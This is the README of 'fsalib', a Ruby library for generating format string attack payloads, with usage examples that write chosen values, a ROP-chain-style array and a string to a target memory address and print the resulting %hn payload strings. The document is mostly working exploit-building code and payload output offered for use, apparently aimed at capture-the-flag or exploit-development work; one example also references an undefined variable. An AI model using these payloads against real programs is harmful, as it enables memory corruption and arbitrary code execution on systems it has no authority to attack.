 # fsalib

[![Build Status](https://travis-ci.org/owlinux1000/fsalib.svg?branch=master)](https://travis-ci.org/owlinux1000/fsalib)
[![MIT License](http://img.shields.io/badge/license-MIT-blue.svg?style=flat)](LICENSE)

I made this script based on [libformatstr](https://github.com/hellman/libformatstr).

## Usage

### Basic

```ruby
#coding: ascii-8bit
require_relative 'fsalib'

target_addr = 0x08049580

value = 0xdeadbeef
fmt = FSA.new()
fmt[target_addr] = value
p fmt.payload(0) # index of argument
#=> "%48879c%6$hn%8126c%7$hnA\x80\x95\x04\b\x82\x95\x04\b"

# Supported Array
value = [0xdeadbeef, 0xdeadbeef] # like ropchain
fmt = FSA.new()
fmt[target_addr] = value
p fmt.payload(0)
#=> "%48879c%9$hn%10$hn%8126c%11$hn%12$hn\x80\x95\x04\b\x84\x95\x04\b\x82\x95\x04\b\x86\x95\x04\b"

# Supported String
value = "H@CK"
fmt = FSA.new()
fmt[target] = value
p fmt.payload(0)
#=> "%16456c%6$hn%2811c%7$hnA\x80\x95\x04\b\x82\x95\x04\b"
```

### Advanced

```ruby
#coding: ascii-8bit
require_relative 'fsalib'

target_addr = 0x08049580
value = 0xdead            # 2byte(Supported 2byte, 1byte)
fmt = FSA.new(30)         # padding 
fmt[target_addr] = value
p fmt.payload(0, start_len = 10) # len of already printed data
#=> "%57005c%3$hnAAL\xA0\x04\b\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

```

